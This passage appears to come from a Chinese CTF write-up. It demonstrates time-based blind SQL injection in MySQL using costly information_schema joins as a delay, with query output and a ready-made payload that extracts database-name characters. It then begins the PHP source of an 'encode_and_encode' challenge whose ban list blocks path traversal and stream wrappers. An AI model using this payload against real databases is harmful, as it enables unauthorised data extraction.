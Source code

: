 	mysql> select count(*) from information_schema.tables;
	+----------+
	| count(*) |
	+----------+
	|      287 |
	+----------+
	1 row in set (0.00 sec)       

后面还可以加其他列或者表，从而使其计算花费的时间不同![02.png](https://ae03.alicdn.com/kf/Ua5f6439e6b1b43ec9fa741c0cd281150k.jpg)       


	1=1 延时
	mysql> select * from guestbook where comment_id=1 and 1=1 and(select count(*) from information_schema.columns,information_schema.tables A,information_schema.tables B);
	+------------+-------------------------+------+
	| comment_id | comment                 | name |
	+------------+-------------------------+------+
	|          1 | This is a test comment. | test |
	+------------+-------------------------+------+
	1 row in set (11.73 sec)
	


	1=0  不会延时
	mysql> select * from guestbook where comment_id=1 and 1=0 and(select count(*) from information_schema.columns,information_schema.tables A,information_schema.tables B);
	Empty set (0.00 sec)

依旧可以以and连接构造时间盲注        

payload：`1' and ascii(substr(database(),1,1))>0 and(select count(*) from information_schema.columns,information_schema.tables A,information_schema.tables B)#`     



[SQL注入有趣姿势总结](https://xz.aliyun.com/t/5505)          


### `encode_and_encode`       






	```php
	 <?php
	error_reporting(0);
	
	if (isset($_GET['source'])) {
	  show_source(__FILE__);
	  exit();
	}
	
	function is_valid($str) {
	  $banword = [
	    // no path traversal
	    '\.\.',
	    // no stream wrapper
	    '(php|file|glob|data|tp|zip|zlib|phar):',
	    // no data exfiltration
	    'flag'
	  ];
	  $regexp = '/' . implode('|', $banword) . '/i';
	  if (preg_match($regexp, $str)) {
	    return false;
	  }
	  return true;